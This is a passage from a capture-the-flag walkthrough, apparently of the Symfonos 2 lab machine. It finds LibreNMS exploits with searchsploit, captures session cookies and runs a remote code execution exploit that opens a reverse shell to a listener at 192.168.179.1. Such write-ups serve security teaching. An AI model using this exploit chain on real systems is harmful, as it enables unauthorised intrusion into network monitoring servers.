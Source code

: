 ```bash
root@kali:~$ searchsploit librenms
----------------------------------------------------------------------------------------- -----------------------------
 Exploit Title                                                                           |  Path
----------------------------------------------------------------------------------------- -----------------------------
LibreNMS - addhost Command Injection (Metasploit)                                        | linux/remote/46970.rb
LibreNMS - Collectd Command Injection (Metasploit)                                       | linux/remote/47375.rb
LibreNMS 1.46 - 'addhost' Remote Code Execution                                          | php/webapps/47044.py
LibreNMS 1.46 - 'search' SQL Injection                                                   | multiple/webapps/48453.txt
LibreNMS 1.46 - MAC Accounting Graph Authenticated SQL Injection                         | multiple/webapps/49246.py
----------------------------------------------------------------------------------------- -----------------------------
```
Then I copy the python exploit to my current directory.

```bash
root@kali:~$ searchsploit -m php/webapps/47044.py
```
To execute this exploit we need the cookie value, so we intercept the request with burpsuite ones we have logged in, as shown below:

![](/assets/images/symfonos2/screenshot-3.png)

Then we set up a netcat listener, we run the exploit and get a reverse shell with the cronos user privileges.

```bash
root@kali:~$ python 47044.py http://127.0.0.1:4444 "XSRF-TOKEN=eyJpdiI6Im5qelNNcTM4MzdFUGIwRENITXl6WFE9PSIsInZhbHVlIjoic2p5Ynd0Z3dFYnI0aHF3RW9EZkRSZjZVcktjRFRGK3BCRzZWK1hmcEFBVDcrN3VXa29QQkxBQ2EwSlhnR3gyc0krR3hMMDVNbHFramdYQ0VqTTErOFE9PSIsIm1hYyI6ImNkNjA3MTdjZjlhNjVjZDBhYzViMGVjNDUyOWQwYTM5ODFjZTM1NzY0YWNkYzhmNzcxYjdiNTZhYmI3ZTYxMWIifQ%3D%3D; librenms_session=eyJpdiI6IlFTa0FXbEk4bEFGUmk4QVJieURjNFE9PSIsInZhbHVlIjoiXC9tYk9xYWtNUkx4eXdHRldKOWdqdGFQNms5WVwvOFdiUzhYVTJPajNoQ2poZzVtVW1QaE8yQkQwYXpESWYrY0hhVDNnS29DZVlHcGc4SHczbXlCa3NSUT09IiwibWFjIjoiODQ0ZTM5YWMyOGJhMDhhOWRhNTQ1MjQyNmZlY2Y4N2EzNWViNGNmZmM5NWZlZTlmZTg2NDBmNDVhZTI5MWVkMCJ9; PHPSESSID=l1gcq7e0u3q4bt5qm79b6n2b92" 192.168.179.1 1337  
[+] Device Created Sucssfully
```
